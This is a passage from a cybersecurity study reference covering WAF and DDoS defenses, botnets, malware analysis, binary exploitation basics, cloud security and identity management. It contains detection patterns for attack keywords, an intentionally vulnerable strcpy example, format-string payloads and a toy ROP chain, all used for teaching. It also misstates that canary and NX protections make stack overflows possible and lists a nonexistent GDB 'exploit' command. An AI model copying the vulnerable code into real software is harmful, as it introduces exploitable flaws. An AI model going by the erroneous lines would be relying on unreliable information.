SecRule REQUEST_URI "@detectXSS" "id:1002,phase:1,block,msg:'XSS Attack Detected'"

# Rate limiting rules
SecAction "id:900001,phase:1,pass,initcol:ip=%{REMOTE_ADDR},initcol:global=global"
SecRule IP:REQUEST_COUNT "@gt 100" "id:900002,phase:1,deny,msg:'Request rate exceeded'"

# Nginx rate limiting
# /etc/nginx/nginx.conf
http {
    limit_req_zone $binary_remote_addr zone=one:10m rate=1r/s;
    limit_req_zone $binary_remote_addr zone=api:10m rate=5r/s;

    server {
        location / {
            limit_req zone=one burst=5 nodelay;
        }

        location /api/ {
            limit_req zone=api burst=10 nodelay;
        }
    }
}

# Cloudflare-style protection with Nginx
location / {
    # Challenge suspicious requests
    if ($http_user_agent ~* (bot|crawler|spider)) {
        return 503;
    }

    # Block common attack patterns
    if ($request_uri ~* (eval|union|select|insert|drop)) {
        return 403;
    }
}
```

### 5. BCP 38 (Ingress Filtering)
**Purpose**: Stop spoofed IP packets at the ISP level to prevent reflection attacks
```bash
# Router/ISP level configuration
# Configure upstream provider to implement BCP 38

# Local network anti-spoofing
iptables -A INPUT -s 10.0.0.0/8 -i eth0 -j DROP       # Block private IPs from internet
iptables -A INPUT -s 192.168.0.0/16 -i eth0 -j DROP   # Block RFC 1918 addresses
iptables -A INPUT -s 172.16.0.0/12 -i eth0 -j DROP    # Block private ranges

# Reverse path filtering (kernel level)
echo 1 > /proc/sys/net/ipv4/conf/all/rp_filter
for interface in /proc/sys/net/ipv4/conf/*/rp_filter; do
    echo 1 > $interface
done

# Source address validation
sysctl -w net.ipv4.conf.all.rp_filter=1
sysctl -w net.ipv4.conf.default.rp_filter=1
```

### 6. Reflection & Amplification Controls
**Purpose**: Disable open DNS resolvers, secure NTP servers, and limit large query responses
```bash
# DNS server hardening (BIND)
# /etc/bind/named.conf.options
options {
    recursion no;                                    # Disable recursive queries
    allow-recursion { none; };                       # No recursive queries allowed
    rate-limit {
        responses-per-second 10;
        window 5;
        slip 2;
        exempt-clients { 192.168.1.0/24; };
    };
};

# NTP server hardening
# /etc/ntp.conf
disable monitor                                      # Disable monlist
restrict default kod nomodify notrap nopeer noquery
restrict -6 default kod nomodify notrap nopeer noquery
restrict 127.0.0.1
restrict -6 ::1

# Memcached security
memcached -l 127.0.0.1 -U 0                        # Localhost only, no UDP

# SNMP security
community readonly_community {
    source 192.168.1.0/24;                         # Restrict source networks
    oid 1.3.6.1.2.1.1;                             # Limit OID access
}

# Disable unnecessary services
systemctl disable chargen                           # Character generator
systemctl disable echo                              # Echo service
systemctl disable discard                           # Discard service
systemctl disable avahi-daemon                      # mDNS/SSDP
```

### 7. Advanced Monitoring and Response
```bash
# Real-time traffic monitoring
iftop -i eth0 -P                                   # Real-time bandwidth by port
nethogs eth0                                       # Per-process network usage
iperf3 -s                                          # Network performance testing

# DDoS detection script
#!/bin/bash
# ddos_monitor.sh
THRESHOLD=1000
INTERFACE="eth0"

while true; do
    PPS=$(cat /sys/class/net/$INTERFACE/statistics/rx_packets)
    sleep 1
    PPS_NEW=$(cat /sys/class/net/$INTERFACE/statistics/rx_packets)
    PPS_DIFF=$((PPS_NEW - PPS))

    if [ $PPS_DIFF -gt $THRESHOLD ]; then
        echo "DDoS detected: $PPS_DIFF packets/second"
        # Trigger mitigation
        iptables -A INPUT -i $INTERFACE -m limit --limit 100/second -j ACCEPT
        iptables -A INPUT -i $INTERFACE -j DROP
    fi
done

# Geographic blocking with GeoIP
iptables -A INPUT -m geoip --src-cc CN,RU,KP -j DROP

# Traffic analysis and top talkers
netstat -an | awk '/^tcp/ {++S[$NF]} END {for(a in S) print a, S[a]}'
netstat -ntu | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -nr | head -10

# Bandwidth monitoring
vnstat -i eth0 -h                                  # Hourly stats
vnstat -i eth0 -d                                  # Daily stats
iftop -i eth0 -t -s 60                            # 60-second sample
```

### 8. Cloud-Based DDoS Protection
```bash
# Cloudflare configuration
# Enable "Under Attack Mode" for aggressive protection
# Configure rate limiting rules
# Set up custom WAF rules

# AWS Shield Advanced with CloudFront
aws configure set region us-east-1
aws shield describe-protection --resource-arn arn:aws:cloudfront::123456789:distribution/E1234567890

# Load balancer configuration for DDoS mitigation
# /etc/haproxy/haproxy.cfg
frontend web_frontend
    bind *:80
    bind *:443 ssl crt /etc/ssl/certs/

    # Rate limiting
    stick-table type ip size 100k expire 30s store http_req_rate(10s)
    http-request track-sc0 src
    http-request reject if { sc_http_req_rate(0) gt 20 }

    # Connection limiting
    tcp-request connection reject if { src_conn_rate(Proxy) gt 10 }

    default_backend web_servers

# CDN configuration for DDoS protection
# Configure edge caching to absorb traffic
# Enable automatic scaling based on traffic patterns
```

These comprehensive mitigation strategies provide multiple layers of protection against various types of DDoS attacks, from network-level filtering to application-layer protection and cloud-based solutions.

## Botnets 
### Architectures 

Different botnets adopt various communication topologies based on goals and resilience:

* **Star:** Single central C2 server. Simple, low-latency, but single point of failure.
* **Multi-server:** Multiple redundant C2s with fast-flux domains to stay online.
* **Peer-to-Peer (P2P):** Decentralized, bots talk directly. Highly resilient.
* **Hybrid:** Mix of centralized and P2P, often using proxy layers for stealth.

### Command & Control (C2) Channels

C2 channels enable communication between botmaster and bots:

* **Standard protocols:** IRC, HTTP/HTTPS, DNS.
* **Covert methods:** DNS tunneling, social media, steganography, domain/IP fluxing.

### Lifecycle Phases

Typical botnet lifecycle:

1. **Propagation:** Infection via phishing, exploits, USBs, etc.
2. **C2 Contact:** Bot locates and connects to C2.
3. **Attack:** Flooding, data theft, fraud, or spam as instructed.

### C2 Resilience Techniques

Botnets use methods to avoid detection and takedown:

* **Encryption:** TLS or custom crypto to hide payloads.
* **Proxy Chaining:** Traffic routed via proxies for obfuscation.
* **DNS-based:**
  * *Single-Flux:* Rotate A records only.
  * *Double-Flux:* Rotate A and NS records.
  * *Domain Flux:* Many domains map to one IP.
  * *Wildcards:* Subdomains encode commands.
  * *DGAs:* Generate large pools of potential domains.
  * *DNS Tunneling:* Commands/data sent in DNS queries and TXT responses.
* **ICMP Tunneling:** Encode commands in ping packets.
* **Social Media C2:** Commands hidden in tweets, comments, or images.
* **Obfuscated Protocols:** Commands hidden in headers, comments, or scripts.
* **Covert Channels:** Abuse unused protocol fields, packet timing, or steganography.

### Detection Techniques

Defenders counter botnets using:

* **Behavioral analytics:** Spot repetitive or automated activity.
* **Anomaly detection:** Identify deviations from baselines.
* **DNS monitoring:** Detect DGAs or failed resolutions.
* **Honeypots:** Trap and analyze bots safely.

### Notable Botnets

* **Mirai:** IoT-focused, launched massive DDoS attacks by exploiting weak/default credentials.
* **Kelihos:** Large spam-sending botnet with modular malware capabilities, taken down in 2017.
* **Waledac:** Email spam and credential-stealing botnet, disrupted in 2010.

# Malware Analysis

## Static Analysis
Static analysis involves examining the code or binary of a program without executing it, to understand its structure, functionality, and potential malicious behavior.

```bash
# File information
file malware.exe
objdump -x malware.exe
strings malware.exe | grep -i "http\|ftp\|\.dll"

# Packing detection
peid malware.exe
upx -t malware.exe

# Hash calculation
md5sum malware.exe
sha256sum malware.exe

# VirusTotal API
curl -X POST 'https://www.virustotal.com/vtapi/v2/file/scan' -F 'key=YOUR_API_KEY' -F 'file=@malware.exe'
```

## Dynamic Analysis
Dynamic analysis involves executing the program in a controlled environment to observe its behavior, interactions, and effects on the system.

```bash
# Sandbox analysis
cuckoo submit malware.exe
cuckoo analysis info 1

# Process monitoring
strace -f -e trace=open,write,network ./malware
ltrace ./malware

# Network monitoring
netstat -tulpn
tcpdump -i any -w malware_traffic.pcap

# File system monitoring
inotifywait -m -r /tmp/
```

## Symbolic Execution
Symbolic execution is a program analysis technique that runs programs with **symbolic inputs** instead of concrete values, allowing exploration of multiple execution paths and detection of vulnerabilities. It tracks **path constraints** across branches (`if`, `while`), replacing variables with symbols (e.g., α, β), and then uses a **constraint solver (Satisfiability Modulo Theories (SMT))** like Z3 to check feasibility and generate concrete inputs. This enables finding deep bugs, generating test cases, and even exploit creation when combined with taint tracking.

**Symbolic vs Concrete Execution**
* **Concrete**: Runs with fixed inputs, follows one path.
* **Symbolic**: Explores many paths simultaneously by reasoning over symbolic inputs.

### Key Challenges & Techniques

* **Path Explosion**: Conditionals multiply paths exponentially (3 inputs = 8 paths).
* **Path Merging**: Combines paths with conditional expressions (e.g., `y = (x > 0) ? 1 : -1`) to reduce states.
* **Search Strategies**: Depth-first (fast but stuck), breadth-first (complete but memory-heavy), heuristics (guided to bugs), random (unbiased, good with time limits).

### Use Cases

* Vulnerability detection (e.g., assertion violations, memory errors).
* Input generation for testing (coverage-guided).
* Exploit generation by finding feasible, exploitable paths.

[angr](https://angr.io/) is a popular Python framework for symbolic execution, combining static and dynamic analysis.

## Binary Exploitation
Analysis and exploitation of compiled binaries to gain unauthorized access or control.

[pwntools](https://docs.pwntools.com/en/stable/) is a powerful Python library for binary exploitation.

### Registers
CPU registers are high-speed storage locations within the processor. In x86-64 architecture, understanding registers is crucial for binary exploitation.

**Register Naming Convention:**
- 64-bit: RAX, RBX, RCX, RDX, RSI, RDI, RBP, RSP
- 32-bit: EAX, EBX, ECX, EDX, ESI, EDI, EBP, ESP  
- 16-bit: AX, BX, CX, DX, SI, DI, BP, SP
- 8-bit: AL/AH, BL/BH, CL/CH, DL/DH

**General Purpose Registers:**

| 64-bit | 32-bit   | 16-bit   | 8-bit    | Purpose                                 |
| ------ | -------- | -------- | -------- | --------------------------------------- |
| RAX    | EAX      | AX       | AL       | Accumulator (return values, arithmetic) |
| RBX    | EBX      | BX       | BL       | Base register (pointer to data)         |
| RCX    | ECX      | CX       | CL       | Counter (loop operations)               |
| RDX    | EDX      | DX       | DL       | Data register (I/O operations)          |
| RSI    | ESI      | SI       | SIL      | Source index (string operations)        |
| RDI    | EDI      | DI       | DIL      | Destination index (string operations)   |
| RBP    | EBP      | BP       | -        | Base pointer (stack frame)              |
| RSP    | ESP      | SP       | -        | Stack pointer (top of stack)            |
| R8-R15 | R8D-R15D | R8W-R15W | R8B-R15B | Additional 64-bit registers             |

**Special Registers:**
- **RIP/EIP/IP**: Instruction pointer (current instruction)
- **RFLAGS/EFLAGS/FLAGS**: Status flags

**Example Usage:**
```assembly
mov rax, 0x1234567890abcdef  ; 64-bit
mov eax, 0x12345678          ; 32-bit (clears upper 32 bits)
mov ax, 0x1234               ; 16-bit
mov al, 0x12                 ; 8-bit low
mov ah, 0x34                 ; 8-bit high
```

### The Stack
The stack is a Last-In-First-Out (LIFO) data structure used for function calls, local variables, and return addresses.

**Stack Operations:**
- PUSH: Add data to top of stack (decreases RSP)
- POP: Remove data from top of stack (increases RSP)

```
High Memory
+-----------------+
| Function Args   |
+-----------------+
| Return Address  | <- Overwrite this for control
+-----------------+
| Saved RBP       |
+-----------------+ <- RBP points here
| Local Variables |
+-----------------+ <- RSP points here
Low Memory
```
**Stack Operations**: PUSH (decrements ESP), POP (increments ESP)

### Stack Overflow
To see if a stack overflow is possible, run the following command:
```bash
checksec --file=<executable>
```
If the output contains `Canary found` and `NX enabled`, then a stack overflow is possible.

### Global Offset Table (GOT)
**Purpose**: Resolves shared library function addresses at runtime.
- **GOT**: Contains actual addresses of external functions
- **PLT**: Procedure Linkage Table, jumps to GOT entries
- **Attack**: Overwrite GOT entries to redirect execution

### Buffers and Buffer Overflows
**Mechanism**: Writing past buffer boundaries overwrites adjacent memory.
```c
// Vulnerable function
void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking
}

// Stack layout after overflow
[buffer][saved EBP][return address] ← Overwritten
```
**Control Flow Hijacking**: Overwrite return address to redirect execution

### Return Oriented Programming (ROP)
**Mechanism**: Chain existing code snippets (gadgets) ending in RET instructions.
```assembly
# Example ROP chain
pop eax; ret     # Load value into EAX
pop ebx; ret     # Load value into EBX
int 0x80; ret    # System call
```
**Purpose**: Bypass DEP/NX bit protections by using existing executable code

### Binary Security
* **NX:** Prevents execution of code from non-executable memory regions (e.g., no shellcode on the stack).
* **PIE:** Builds executables so their code base is randomized at load time (makes addresses unpredictable).
* **ASLR:** Randomizes process memory layout (stack, heap, libs) to frustrate address-dependent exploits.
* **Stack canaries:** Place a secret value before the return address; if overwritten by a buffer overflow the program aborts.
* **RELRO:** Marks dynamic linker tables read-only after relocation to stop GOT/PLT overwrites.


### The Heap and Exploitation
**Heap Structure**: Dynamic memory allocation with metadata chunks
```
┌──────────────┐
│ Chunk Header │ ← Size, flags, pointers
├──────────────┤
│ User Data    │
├──────────────┤
│ Next Chunk   │
└──────────────┘
```
**Attacks**: Use-after-free, double-free, heap overflow, chunk corruption

### Format String Vulnerability
**Mechanism**: User input directly used as printf format string.
```c
// Vulnerable
printf(user_input);

// Attack payloads
"%x %x %x %x"        // Read stack values
"%n"                 // Write to memory
"%s"                 // Read memory as string
```

### Integer Overflow
**Mechanism**: Arithmetic results exceed data type limits.

**BYTE** = 8 bits  
**WORD** = 16 bits  
**DWORD** = Double Word (32 bits)  
**QWORD** = Quad Word (64 bits)

```c
// Vulnerable
int size = user_input;
char *buffer = malloc(size * sizeof(int));  // Overflow if size > MAX_INT/4
```

## Reverse Engineering
Reverse engineering is the process of analyzing a compiled program to understand its design, architecture, and functionality, often to identify vulnerabilities or malicious behavior.

### Assembly Language
Assembly is the low-level programming language that directly corresponds to machine code instructions.

**Common Instructions:**
- **MOV**: Move data between locations
- **ADD/SUB**: Arithmetic operations  
- **CMP**: Compare values
- **JMP/JE/JNE**: Jump instructions
- **CALL/RET**: Function calls
- **PUSH/POP**: Stack operations

**Intel vs AT&T Syntax:**
```assembly
# Intel syntax
mov eax, 5
add eax, ebx

# AT&T syntax  
movl $5, %eax
addl %ebx, %eax
```

**x86/x64 Instructions**:
```assembly
mov eax, ebx     # Move data between registers
add eax, 5       # Arithmetic operations
cmp eax, ebx     # Compare values (sets flags)
jmp label        # Unconditional jump
je label         # Jump if equal (conditional)
call function    # Function call
ret              # Return from function
push eax         # Push to stack
pop ebx          # Pop from stack
```

### Disassemblers & Debuggers
A disassembler is a computer program that translates machine language into assembly language—the inverse operation to that of an assembler. A debugger is a computer program that is used to test and debug other programs.

**Static Analysis Tools**:
- **IDA Pro**: Industry standard disassembler with advanced analysis
- **Ghidra**: NSA's free reverse engineering suite with decompiler
- **Radare2**: Open-source reverse engineering framework
- **objdump**: GNU binary analysis tool

**Dynamic Analysis Tools**:
- **GDB**: GNU debugger for runtime analysis
- **WinDbg**: Windows kernel and user-mode debugger
- **x64dbg**: Windows user-mode debugger
- **OllyDbg**: Legacy Windows debugger

<!-- Toggle GDB code -->
<details>
<summary>GDB Commands</summary>

```bash
berkankutuk@kali:~$ gdb <binary file> # opens the binary file in gdb

(gdb)> set disassembly-flavor intel # sets the disassembly flavor to intel

(gdb)> break <function_name> # sets a breakpoint at the given function
(gdb)> break *<addr> # sets a breakpoint at the given address
(gdb)> si # steps through the program one instruction at a time
(gdb)> ni # steps over the current instruction
(gdb)> run # runs the program until it reaches the first breakpoint
(gdb)> run <input file> # runs the program with the given input file
(gdb)> disassemble <function_name> | main # disassembles the given function
(gdb)> x/s <addr> # prints a string from memory address
(gdb)> continue # continues the execution of the program
(gdb)> info registers # prints the values of the registers
(gdb)> info variables # prints the values of the variables
(gdb)> info functions # prints the functions
(gdb)> set $eax=0 # sets the value of the eax register to 0
(gdb)> exploit # runs the exploit
(gdb)> x # inspect memory locations
(gdb)> quit # quits gdb
```	

</details>

<!-- Toggle radare2 code -->

<details>
<summary>Radare2 Commands</summary>

```bash
berkankutuk@kali:~$ r2 <binary file>` # opens the binary file in radare2
berkankutuk@kali:~$ r2 -d <binary file>` # opens the binary file in radare2 in debug mode 

# General
[0x00400510]> aaa # Analyze the binary
[0x00400510]> afl # List functions
[0x00400510]> s main # Go to main function
[0x00400510]> pdf # Print disassembled function
[0x00400510]> s/ password # Search for data within the code
[0x00400510]> V # Hex view
[0x00400510]> VV # Visual mode

# Debug mode
[0x00400510]> db <addr> # Set breakpoint at address
[0x00400510]> dc # Continue execution
[0x00400510]> dr # Show registers
[0x00400510]> s # step instruction
```
</details>

<!-- Toggle  Ghidra code -->
<details>
<summary>Ghidra Commands</summary>

```bash 
Right click -> Patch Instruction -> Values # Patch the instruction with the given values 
File -> Export Program -> Export as ELF # Export the binary as an ELF file

Symbol Tree -> Functions # List functions (ex. Main)
Symbol Tree -> Imports # List imported functions (ex. printf, strcpy)
```
</details>


### Decompilers
**Purpose**: Convert assembly back to high-level language (C/C++, Java, etc.)
- **Ghidra Decompiler**: Integrated with Ghidra, supports multiple architectures
- **Hex-Rays**: IDA Pro plugin, commercial decompiler
- **RetDec**: Open-source retargetable decompiler
- **JD-GUI**: Java decompiler for .class files

**Limitations**:
- Lost variable names, comments, and original structure
- Optimized code creates complex control flow
- Obfuscated binaries resist decompilation

To decompile a jar file, [procyon](https://manpages.ubuntu.com/manpages/jammy/man1/procyon.1.html) can be used. For online [DogBolt](https://www.dogbolt.com/) is a good option.

```bash
berkankutuk@kali:~$ sudo apt-get install -y procyon-decompiler
berkankutuk@kali:~$ procyon -jar <jar file> -o <output directory>

# Decompilation examples
retdec-decompiler binary.exe    # RetDec decompiler
java -jar jd-gui.jar App.jar    # Java decompiler
```

**.NET Decompilers**
* [dotPeek](https://www.jetbrains.com/decompiler/) - Free .NET decompiler and assembly browser
* [ILSpy](https://github.com/icsharpcode/ILSpy) - .NET Decompiler with support for PDB generation, ReadyToRun, Metadata (&more) - cross-platform!


# Cloud Security

## Cloud Security Alliance (CSA)
Promotes best practices for secure cloud computing and operates the CSA STAR certification framework:
- **Level 1**: Self-assessment
- **Level 2**: Third-party certification
- **Level 3**: Continuous auditing

### Common Cloud Vulnerabilities
- Data breaches, misconfiguration, insufficient identity/key management, insecure APIs

### Cloud Security Principles
**Data in Transit**: Encryption, SSL/TLS protocols, authentication mechanisms  
**Asset Protection**: Encrypted storage (at rest), geographical controls, redundancy, strict access control  
**User Separation**: Logical partitioning, isolation controls, multi-tenancy security  
**Governance**: Continuous monitoring, auditability, structured incident response

## AWS Security
```bash
# IAM policies
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::my-bucket/*"
    }
  ]
}

# S3 bucket policy
aws s3api put-bucket-policy --bucket my-bucket --policy file://policy.json

# CloudTrail logs
aws logs describe-log-groups
aws logs filter-log-events --log-group-name CloudTrail --filter-pattern "ERROR"

# Security Groups
aws ec2 describe-security-groups
aws ec2 authorize-security-group-ingress --group-id sg-12345678 --protocol tcp --port 22 --cidr 10.0.0.0/8
```

## Container Security
```dockerfile
# Secure Dockerfile
FROM alpine:3.14
RUN adduser -D -s /bin/sh appuser
USER appuser
COPY --chown=appuser:appuser app /app
WORKDIR /app
CMD ["./app"]
```

```bash
# Docker security scanning
docker scan image:tag
trivy image image:tag

# Kubernetes security
kubectl get pods --all-namespaces
kubectl describe pod pod-name
kubectl logs pod-name

# Network policies
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-all
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

## Cloud Architecture & Deployment Models

### Service Models
- **IaaS**: Virtualized infrastructure (VMs, storage, networks)
- **PaaS**: Development platforms and tools 
- **SaaS**: Fully managed software applications

### Deployment Models
- **Public Cloud**: Shared infrastructure, cost-effective
- **Private Cloud**: Dedicated infrastructure, higher control
- **Hybrid Cloud**: Mix of public and private 
- **Community Cloud**: Shared among organizations with common requirements

### Computing Models
**Fog Computing**: Extends cloud services closer to devices using a multi-layer, hierarchical architecture (e.g., gateways, routers, local servers). Designed to support both IoT and cloud, handling processing, storage, and networking across layers.

**Edge Computing**: Runs computation directly at the network edge (on IoT devices or nearby gateways) in a single layer. Focused on real-time processing close to the data source with minimal reliance on the cloud.

### Virtualization & Containerization
**Hypervisors**: Type 1 (bare metal), Type 2 (hosted)
**Containers vs VMs**:
- **VMs**: Full OS isolation, larger attack surface, slower, more secure isolation
- **Containers**: Process-level isolation, smaller attack surface, faster, shared kernel vulnerabilities


### Architecture Patterns
**Monolithic**: Single deployable unit, simpler security management, centralized vulnerabilities  
**Microservices**: Distributed services, complex security management, isolated failure domains

# Identity & Access Management (IAM)
IAM is a framework of policies and technologies to ensure that the right individuals access the right resources at the right times for the right reasons.

## General Concepts
- **Authentication**: Verifying identity (e.g., passwords, biometrics)
- **Authorization**: Granting access to resources based on permissions
- **Accounting**: Tracking user activities (logs, audits)
- **Identification:** Selecting a unique entity based on identifying information within a context.
- **Identifier:** Any attribute (or set) that uniquely identifies an entity.
- **Linkability:** Ability to associate different data sets with the same identity.
- **Unlinkability:** Inability to correlate identity fragments across contexts.
- **Identity proofing:** Process of binding a digital identity to a real-world individual.
- **Personal Identifiable Information (PII):** Any data that can identify an individual (e.g., name, SSN, email)
- **Zero Trust**: Never trust, always verify; continuous validation of user/device
- **Principle of Least Privilege**: Users get the minimum access necessary
- **Federation**: Trusting identities from external systems (e.g., SAML, OAuth)
- **Provisioning/Deprovisioning**: Creating/removing user accounts and access
- **Directory Services**: Centralized user and resource management (e.g., LDAP, Active Directory)

### Authentication Factors
**Three Primary Factors**:
1. **Something You Know (Knowledge Factor)**:
   - **Passwords**: Secret phrases or character combinations
   - **PINs**: Numeric codes (4-8 digits)
   - **Security Questions**: Personal information-based challenges
   - **Passphrases**: Longer, sentence-like passwords
2. **Something You Have (Possession Factor)**:
   - **Hardware Tokens**: Physical devices generating OTP codes
   - **Smart Cards**: Chip-embedded cards with cryptographic keys
   - **Mobile Phones**: SMS codes or authenticator apps
   - **USB Security Keys**: FIDO2/WebAuthn compatible devices
3. **Something You Are (Inherence Factor)**:
   - **Fingerprints**: Biometric scanning of finger ridges
   - **Facial Recognition**: Analyzing facial features and geometry
   - **Voice Recognition**: Vocal pattern and speech analysis
   - **Iris/Retina Scans**: Eye-based biometric identification

> **One-Time Passwords (OTPs)**: Unique codes valid for only one login session or transaction. Commonly used but vulnerable to phishing attacks.

**Additional Authentication Factors**:
1. **Somewhere You Are (Location Factor)**:
   - **GPS Coordinates**: Physical location verification
   - **IP Geolocation**: Network-based location tracking
   - **Network Access**: Specific network or VPN requirements
2. **Something You Do (Behavioral Factor)**:
   - **Typing Patterns**: Keystroke dynamics and timing
   - **Mouse Movement**: Unique cursor movement patterns
   - **Gait Analysis**: Walking pattern recognition

### Types of Authenticators
**Authenticator Security Levels**:
- **AAL1 (Authenticator Assurance Level 1)**: Single-factor
- **AAL2**: Multi-factor with approved authenticators
- **AAL3**: Multi-factor with hardware-based protection

### FIDO Alliance & Protocols
Defines phishing-resistant authentication protocols

**Protocols**:
  * **FIDO UAF**: Passwordless login.
  * **FIDO U2F / CTAP1**: Second factor authentication using USB/NFC.
  * **FIDO2** = **WebAuthn** (browser API) + **CTAP2** (authenticator interface).

**FIDO Flow**  
* **Registration**:
  1. User unlocks authenticator (biometric, PIN, button).
  2. Device generates unique key pair (per service + account).
  3. Public key → server; private key stays local.
* **Authentication**:
  1. Server sends challenge + credential IDs.
  2. Authenticator signs with private key + counter.
  3. Server verifies signature with stored public key + checks counter.

**Core Concepts**
* **Attestation Keys**: Built-in device keys proving model authenticity.
* **Passkeys**: Discoverable WebAuthn credentials; sync across devices; passwordless.
* **WebAuthn**: Browser API for registration/authentication via challenges.
* **CTAP2**: Protocol (USB, NFC, BLE) for client ↔ authenticator.
* **Authenticator Types**:
  * **Platform**: Built-in (e.g., built-in fingerprint).
  * **Roaming**: External (e.g., USB YubiKey).

### NIST Digital Identity Guidelines (SP 800-63)

#### IAL (Identity Assurance Level)
Robustness of identity proofing and binding to authenticator.

- **IAL1**: Self-asserted identity, no identity verification required
- **IAL2**: Remote or in-person identity verification required
- **IAL3**: In-person identity verification by authorized representative required

#### AAL (Authenticator Assurance Level)
Confidence that claimant is the same as the previous subscriber.

- **AAL1**: Single-factor authentication (password, biometric)
- **AAL2**: Multi-factor authentication with approved authenticators
- **AAL3**: Multi-factor authentication with hardware-based cryptographic protection

#### FAL (Federation Assurance Level)
Strength of federation, assertion protection, and presentation.

- **FAL1**: Bearer assertion, signed by IdP
- **FAL2**: Bearer assertion, signed by IdP and encrypted to RP
- **FAL3**: Subscriber key-based assertion, signed by IdP and encrypted to RP

**NIST Level Relationships**:
```
Higher IAL = Stronger Identity Verification
Higher AAL = Stronger Authentication Requirements
Higher FAL = Stronger Federation Security
```

**Single-Factor Authenticators**:
- **Password-only**: Traditional username/password
- **PIN-only**: Numeric code verification
- **Biometric-only**: Single biometric method

**Multi-Factor Authenticators**:
- **2FA (Two-Factor)**: Combines two different factor types
- **3FA (Three-Factor)**: Uses all three primary factors
- **Adaptive Authentication**: Risk-based factor selection

### RBAC vs ABAC VS PBAC
**RBAC (Role-Based Access Control)**:
- Access based on user roles
- Users assigned to roles, roles have permissions
- Static, hierarchical structure
- Example: "Manager" role can access financial reports
- Suitable for stable organizational structures

```txt
Access Control Matrix:
| User  | Role     | Resource         | Permission  |
| ----- | -------- | ---------------- | ----------- |
| Alice | Manager  | Financial Report | Read, Write |
| Bob   | Employee | Financial Report | Read        |
```

**ABAC (Attribute-Based Access Control)**:
- Access based on dynamic attributes (user, resource, environment, and action attributes)
- Dynamic, context-aware decisions
- Example: Access granted if user=employee AND time=business_hours AND location=office
- Suitable for complex, dynamic environments

```txt
Attribute Rules:
| Attribute     | Value              | Condition                     |
| ------------- | ------------------ | ----------------------------- |
| User Role     | Employee           | Must be 'Employee'            |
| Time          | Business Hours     | Must be within 9am-5pm        |
| Location      | Office             | Must be accessing from office |
| Resource Type | Financial Document | Must be 'Financial Document'  |
```

**PBAC (Policy-Based Access Control)**:
- Hybrid model combining RBAC and ABAC
- Policies expressed as assignment relationships
- Access rights acquired through relationships called associations
- Graphical visualization and manipulation of policies
- Example: Access granted based on role and contextual attributes

```txt
Policy Example:
If User.Role == 'Manager' AND Resource.Type == 'Financial Report' AND Time == 'Business Hours' THEN Allow Access
```

### XACML 3.0 (eXtensible Access Control Markup Language)
**Purpose**: XML-based language for defining access control policies in distributed systems.

#### XACML Policy Set Structure
An XACML policy document contains one Policy or PolicySet root element.

**PolicySet Components**:
- **Target**: Defines applicability scope (subjects, resources, actions)
- **Policy-combining Algorithm**: Rules for combining multiple policy decisions
- **Set of Policies**: Collection of individual access control policies
- **Obligation Expressions**: Actions that must be performed with decisions
- **Advice Expressions**: Supplemental information with authorization decisions

#### XACML Architecture Components

**PEP (Policy Enforcement Point)**:
- Performs access control by making decision requests
- Enforces authorization decisions from PDP
- Entry point for access control in applications

**PDP (Policy Decision Point)**:
- Evaluates applicable policies
- Renders authorization decisions (Permit/Deny/Indeterminate/NotApplicable)
- Core decision-making component

**PIP (Policy Information Point)**:
- Source of attribute values during policy evaluation
- Provides identity, runtime, and resource attributes
- External data sources for policy decisions

**PAP (Policy Administration Point)**:
- Creates and manages policies or policy sets
- Policy repository and management interface
- Administrative control point

#### Typical XACML Authorization Flow

1. **User Request**: User wants to perform an action on a resource
2. **PEP Intercept**: User sends request to Policy Enforcement Point (PEP)
3. **Request Formation**: PEP forms standardized request with:
   - **Subject**: User identity and attributes
   - **Resource**: Target resource and properties
   - **Action**: Requested operation
   - **Environment**: Context information (time, location, etc.)
4. **PDP Query**: PEP sends request to Policy Decision Point (PDP)
5. **Policy Retrieval**: PDP looks for suitable policies at Policy Administration Point (PAP)
6. **Attribute Gathering**: Additional attributes retrieved via Policy Information Point (PIP)
7. **Decision Rendering**: PDP evaluates policies and returns decision
8. **Enforcement**: PEP enforces the authorization decision

**XACML Decision Types**:
- **Permit**: Access granted
- **Deny**: Access denied
- **Indeterminate**: Cannot determine (error/missing info)
- **NotApplicable**: No applicable policy found
  
### eIDAS Levels of Assurance (LoA)

* **Definition:** Confidence level that a user is who they claim to be.
* **Factors:** Enrolment (how ID is verified), ID management security, authentication strength.
* **eIDAS 2.0:** Legal framework for Self-Sovereign Identity (SSI) in Europe, enabling EU Digital Identity Wallets.

**Levels:**

* **Low:** Self-registration, no real ID check, password only → low-risk services.
* **Substantial:** Verified ID info, username + password + OTP → medium-risk (e.g., banking).
* **High:** In-person enrolment, smartcard/national ID/biometrics → high-risk (e.g., tax, health).

**Rule:** Higher LoA can be used at lower levels, not the other way around.
  
## Active Directory
An Active Directory (AD) domain is the basic security and administrative unit that groups related objects like users and computers under a single namespace (e.g., example.com), handling authentication and policies.

### **Logical Structure**
* **Domain** → A group of computers, users, and devices that share the same directory and security rules.
* **Tree** → A collection of related domains connected in a hierarchy under a single name.
* **Forest** → The highest level, containing multiple trees that work together but can have different rules.

### **AD Components**
* **Directory:** Hierarchical structure storing information about network objects (users, computers, devices).
* **Directory Service:** Provides methods for storing, retrieving, and managing directory data for network
users and administrators.
* **Domain Controller (DC)** → The server that runs AD. Stores the database (`NTDS.dit`) and handles authentication/authorization.
* * **Sites** → Physical locations with DCs. Help optimize replication and authentication traffic.
* * **Trusts** → Relationships between domains/forests to allow resource sharing.
* **Replication** → DCs sync with each other to stay updated.

### **Objects in AD**

* **Users** → Accounts representing people.
* **Groups** → Collections of users (or other groups). Used for permissions.
* **Computers** → Machine accounts for PCs and servers.
* **OUs (Organizational Units)** → Containers that organize objects (users, groups, computers). Like folders.
* **Group Policy Objects (GPOs)** → Rules applied to OUs (e.g., password complexity, desktop wallpaper, software install).

### **Authentication & Access**

* **Kerberos** → Default authentication protocol in AD (ticket-based).
  * **KRBTGT account:** Service account used by KDC to encrypt/decrypt TGTs.
  * **KDC (Key Distribution Center):** Issues tickets and manages keys. It consists of two main components:
    * **AS (Authentication Service):** Authenticates users and issues Ticket Granting Tickets (TGTs).
    * **TGS (Ticket Granting Service):** Issues service tickets based on a valid TGT for access to specific services.
  * **Tickets**
